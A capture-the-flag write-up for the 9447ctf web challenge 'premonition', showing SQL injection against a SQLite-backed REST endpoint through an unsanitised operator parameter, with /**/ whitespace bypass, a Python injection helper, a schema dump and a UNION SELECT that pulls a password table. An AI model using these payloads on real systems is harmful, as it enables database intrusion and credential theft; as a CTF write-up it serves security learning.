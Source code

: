 ```yaml
---
layout: post
title: "9447ctf: premonition"
author: f0rki
categories: writeup
---
```


* **Category:** Web
* **Points:** 140
* **Solves:** 121
* **Description:**

>  There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?
>
>
>  Find the page at <http://premonition-p8l05mpz.9447.plumbing:9447>


## Write-up

We got an angular.js app that fetches data via a REST API. We identified the following
valid URLs.

```
curl "http://premonition-p8l05mpz.9447.plumbing:9447/
    /firstname" -d "firstname=X"
    /lastname" -d "lastname=X"
    /class" -d "class=X"
    /score" -d "score=0&ineq=>"
    /date_birth" -d "date_birth=0&ineq=>"
```

They all give back json data. To shorten the following curl commands:

```
url="http://premonition-p8l05mpz.9447.plumbing:9447/score"
```

We sent the following request, which returns us no results

```
$ curl "$url" -d "score=0&ineq=<"
[]
```

But if we put an extra `'` in there... something strange happens

```
$ curl "$url" -d  "score=0'&ineq=<"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"], ["Ingeborg", "Dunham", 93.0, "5D"], ["Layne", "Agrawal", 94.0, "5K"], ["Kai", "Nathanson", 94.0, "5A"], ["Catharine", "Mcnally", 92.0, "5J"], ["Jeromy", "Duncanson", 92.0, "5D"], ["Lewis", "Oglesbee", 93.0, "5K"], ["Terri", "Colombo", 94.0, "5A"], ["Geraldo", "Penson", 93.0, "5J"], ["Rachael", "Ackermann", 92.0, "5D"], ["Winford", "Hendley", 93.0, "5K"], ["Nella", "Avila", 95.0, "5A"], ["Albertine", "Walmsley", 91.0, "5J"], ["Tyson", "Jefferies", 93.0, "5D"], ["Beulah", "Kaba", 95.0, "5K"], ["Kendra", "Fettig", 94.0, "5A"], ["Kathie", "Bieker", 94.0, "5J"], ["Sharon", "Martelli", 93.0, "5D"], ["Eusebio", "Champagne", 92.0, "5K"], ["Roni", "Neuberger", 93.0, "5A"], ["Kristopher", "Haber", 92.0, "5J"], ["Rubin", "Puryear", 94.0, "5D"], ["Edwina", "June", 95.0, "5K"], ["Imogene", "Burmeister", 91.0, "5A"], ["Jonell", "Dark", 95.0, "5J"], ["Awilda", "Oler", 95.0, "5D"], ["Delbert", "Heminger", 92.0, "5K"], ["Marina", "Lombardi", 93.0, "5A"], ["Katharyn", "Veselka", 92.0, "5J"]]
```

OK so maybe we have some kind of injection vulnerability in the database backend.
Next we tried the `ineq` parameter:

```
$ curl "$url" -d "score=0'&ineq=x"
{"user": "sqliteadmin@localhost", "error": "near \"x\": syntax error"}
```

Oh how nice it seems to be sqlite in the background. And apparently the inequality
operator is just inserted into the raw statement. The score parameter on the other
hand seems to be bound using `?`, like in prepared statements.

```
$ curl "$url" -d "score=95&ineq=<>--x"
```

Gives us an error but

```
$ curl "$url" -d "score=95&ineq=<>?--x"
```

works just fine. We can also see that whitespace are filtered. So we cannot do something like

```
$ curl "$url" -d "score=100&ineq=>? or 1=1--x"
```

which will result in an error. But then I remebered a neat trick about how to bypass this common
restriction using C-style comments:

```
$ curl "$url" -d "score=100&ineq=>?/**/or/**/1=1--x"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"],  ....
```

Yay we get a list of all students :D So we have a full blown SQL injection.
To make things easier I created a small python function for doing the injections:

```python
def inject(x):
    x = x.replace(" ", "/**/")
    print("Injecting: '{}'".format(x))
    resp = requests.post("http://premonition-p8l05mpz.9447.plumbing:9447/score",
                         data={"score": 100, "ineq": x})
    return resp.content
```

Note that `score > 100` will not any results, so we won't get any results from the normal
part of the query.

First thing we managed to dump the schema of the sqlite database:

```python
schema = inject(">? union select name, sql, 0, name from sqlite_master--x")
print("got schema:")
schema = json.loads(schema)
for x in schema:
    print("table", x[0], "created with:\n", x[1])
```

We get the following output:

```
Injecting: '>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--x'
got schema:
table s3ekr17_passwords created with:
 CREATE TABLE s3ekr17_passwords(
	userid real,
	password text
)
table students created with:
 CREATE TABLE students(
	userid real,
	firstname text,
	lastname text,
	score real,
	teacher real,
	class text,
	date_birth date,
	date_death date
)
```

So the flag is probably in the `s3ekr17_passwords` table. We can just get the contents using
a union select. Turns out each of the passwords of the users was a part of the flag and the
userid was the position of the character. So we just appended an `order by` and joined the
flag by parsing the json output.

```python
x = inject(">? union select password, password, userid, password from s3ekr17_passwords order by userid--x")
print(x)
data = json.loads(x)
flag = "".join(x[0] for x in data)
print("the flag is:")
print(flag)
```

We get the following output:

```
Injecting: '>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x'
[["9", "9", 0.0, "9"], ["4", "4", 1.0, "4"], ["4", "4", 2.0, "4"], ["7", "7", 3.0, "7"], ["{", "{", 4.0, "{"], ["u", "u", 5.0, "u"], ["S", "S", 6.0, "S"], ["e", "e", 7.0, "e"], ["r", "r", 8.0, "r"], ["A", "A", 9.0, "A"], ["g", "g", 10.0, "g"], ["e", "e", 11.0, "e"], ["n", "n", 12.0, "n"], ["T", "T", 13.0, "T"], ["s", "s", 14.0, "s"], ["_", "_", 15.0, "_"], ["a", "a", 16.0, "a"], ["N", "N", 17.0, "N"], ["d", "d", 18.0, "d"], ["_", "_", 19.0, "_"], ["s", "s", 20.0, "s"], ["p", "p", 21.0, "p"], ["a", "a", 22.0, "a"], ["C", "C", 23.0, "C"], ["e", "e", 24.0, "e"], ["s", "s", 25.0, "s"], ["_", "_", 26.0, "_"], ["a", "a", 27.0, "a"], ["R", "R", 28.0, "R"], ["e", "e", 29.0, "e"], ["_", "_", 30.0, "_"], ["p", "p", 31.0, "p"], ["e", "e", 32.0, "e"], ["a", "a", 33.0, "a"], ["s", "s", 34.0, "s"], ["A", "A", 35.0, "A"], ["n", "n", 36.0, "n"], ["t", "t", 37.0, "t"], ["_", "_", 38.0, "_"], ["R", "R", 39.0, "R"], ["a", "a", 40.0, "a"], ["c", "c", 41.0, "c"], ["E", "E", 42.0, "E"], ["s", "s", 43.0, "s"], ["}", "}", 44.0, "}"]]

the flag is:
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
```

